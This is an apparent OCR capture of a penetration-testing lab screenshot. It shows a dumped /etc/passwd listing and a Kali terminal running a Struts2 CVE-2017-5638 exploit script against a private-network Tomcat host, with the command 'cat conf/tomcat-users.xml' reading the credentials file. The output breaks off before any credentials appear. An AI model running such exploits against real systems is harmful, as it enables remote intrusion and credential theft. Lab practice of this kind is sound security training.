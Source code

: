    ```
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
   systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
   systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
   messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
   syslog:x:104:110::/home/syslog:/usr/sbin/nologin
   _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
   tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
   uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
   tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
   landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
   pollinate:x:110:1::/var/cache/pollinate:/bin/false
   usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
   sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
   systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
   bookshelf:x:1000:1000:bookshelf:/home/bookshelf:/bin/bash
   lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
   tomcat:x:997:997:Apache Tomcat:/:/usr/sbin/nologin
   mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
   
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "cat conf/tomcat-users.xml" 
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: cat conf/tomcat-users.xml
   
   <?xml version="1.0" encoding="UTF-8"?>
   <!--
     Licensed to the Apache Software Foundation (ASF) under one or more
     contributor license agreements.  See the NOTICE file distributed with
     this work for additional information regarding copyright ownership.
     The ASF licenses this file to You under the Apache License, Version 2.0
     (the "License"); you may not use this file except in compliance with
     the License.  You may obtain a copy of the License at
   
         http://www.apache.org/licenses/LICENSE-2.0
   
     Unless required by applicable law or agreed to in writing, software
     distributed under the License is distributed on an "AS IS" BASIS,
     WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
     See the License for the specific language governing permissions and
     limitations under the License.
   -->
   <tomcat-users xmlns="http://tomcat.apache.org/xml"
                 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                 xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
                 version="1.0">
   ```